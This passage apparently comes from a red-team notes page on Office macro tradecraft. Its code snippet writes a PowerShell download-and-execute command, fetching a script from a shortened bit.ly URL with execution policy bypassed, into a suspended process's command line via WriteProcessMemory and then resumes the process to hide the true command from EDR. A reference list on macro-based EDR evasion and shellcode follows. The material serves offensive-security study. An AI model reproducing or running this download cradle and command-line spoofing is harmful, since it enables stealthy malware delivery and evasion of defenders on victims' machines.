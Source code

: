 ```csharp
    cmdStr = "powershell.exe -noexit -ep bypass -c IEX((New-Object System.Net.WebClient).DownloadString('http://bit.ly/2TxpA4h')) # "
    cmd = convertStr(cmdStr)
    success = WriteProcessMemory(newProcessHandle, parameters.CommandLine.Buffer, StrPtr(cmd), 2 * Len(cmdStr), size)
    ResumeThread (pi.hThread) 
End Sub
```

![](<../../../.gitbook/assets/Screenshot from 2019-04-10 22-49-40.png>)

## References

{% embed url="https://www.countercept.com/blog/dechaining-macros-and-evading-edr/" %}

{% embed url="https://blog.didierstevens.com/2008/10/23/excel-exercises-in-style/" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros/" %}

{% embed url="https://blog.didierstevens.com/2009/05/06/shellcode-2-vbscript/" %}

{% embed url="https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/" %}

@spotheplanet
